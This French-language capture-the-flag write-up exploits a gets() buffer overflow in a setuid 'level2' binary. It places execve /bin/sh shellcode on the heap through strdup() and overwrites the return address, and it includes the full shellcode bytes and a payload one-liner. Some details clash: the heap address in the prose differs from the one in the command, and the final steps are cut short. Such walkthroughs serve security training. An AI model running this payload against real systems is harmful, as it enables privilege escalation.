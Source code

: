 ## Comportement
- J'ai des droits `level3` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*`
- En exécutant le binaire (`./level2`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level2`) on observe:
- La présence d'une fonction `p()` avec un appel a `gets()`. Comme dans l'exercice précédent, la faille se trouve ici. 
  ```shell
  (gdb) disas p
  ...
  0x080484ed <+25>:	call   0x80483c0 <gets@plt>
  ...
  ```
- Une vérification est effectuée pour s'assurer que nous n'écrasons pas l'adresse de retour avec une adresse de la stack.
Notre adresse de retour ne peut pas commencer par le bit 'b' (indiqué par la commande 'and' avec la valeur "0xb0000000"). 
Elle ne peut donc pas pointer vers la stack (plage 0xbf000000 - 0xbfffffff).
  ```shell
  (gdb) disas p
  ...
  0x080484fb <+39>: and eax,0xb0000000
  0x08048500 <+44>: cmp eax,0xb0000000
  ...
  ```
- On constate que le buffer est ensuite copie via la fonction `strdup()`, or elle utilise `malloc()` qui stocke sur la heap et non la stack. 
  ``` 
  (gdb) disas p
  ...
  0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
  ...
  ```


## Résolution
- On applique un shellcode (petit code qui permet d'ouvrir un shell interactif) et l'inscrire sur la heap. 
Trouve [ici] (http://shell-storm.org/shellcode/files/shellcode-575.php). Il est de long de 21 bytes.
  ```shell
  \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
  ```
- On overwrite l'adresse de retour en utilisant un pattern generator comme [celui-ci] (https://wiremask.eu/tools/buffer-overflow-pattern-generator/) afin de trouver l'offset de l'`eip`. On voit qu'il est de 80 bytes.
- On ajoute 59 bytes de padding (80 - 21) suivi de l'adresse du buffer dans la heap (`\x08\xb0\x04\x08`). Pour trouver celle ci on `run` le programme sous gdb en mettant un breakpoint après `strdup()`, on observe l’état du registre `eax` puisque `strdup()` y stocke l'adresse du buffer) : 
  ```shell
  python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
  ```
- On couple l'envoi du payload avec le trick qui permet a stdin de rester open (`- |`).
  ```shell
  cat /tmp/payload - | ./level2
  ```

Il ne reste plus qu'à :
- et passer au level3 (`su level3`) en renseignant le password obtenu plus haut.


